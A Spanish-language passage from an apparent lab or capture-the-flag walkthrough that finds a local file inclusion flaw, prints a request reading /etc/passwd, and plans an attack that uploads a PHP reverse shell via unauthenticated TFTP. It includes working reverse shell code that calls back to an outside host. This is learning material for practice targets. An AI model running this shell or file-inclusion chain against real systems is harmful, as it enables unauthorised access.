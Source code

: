 Esto indica que hay una **vulnerabilidad LFI**. Se puede intentar incluir archivos arbitrarios del sistema, como:

```bash
http://10.129.9.86/?file=../../../../etc/passwd
```

### 🔄 Plan de ataque: LFI + TFTP + Reverse Shell

Ya que el sistema usa **TFTP** (puerto 69/UDP), podemos subir archivos sin autenticación y después forzar al servidor web a incluirlos vía LFI.

## 🛠️ Pasos ejecutados

### 1. 📄 Crear un archivo con reverse shell en PHP

```bash
<?php
$sock=fsockopen("10.10.14.159",1337);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

➡️ O bien, usar el payload completo de **PentestMonkey** como hiciste, que incluye manejo de errores, timeouts, etc.

Guardarlo como: `shell2.php`
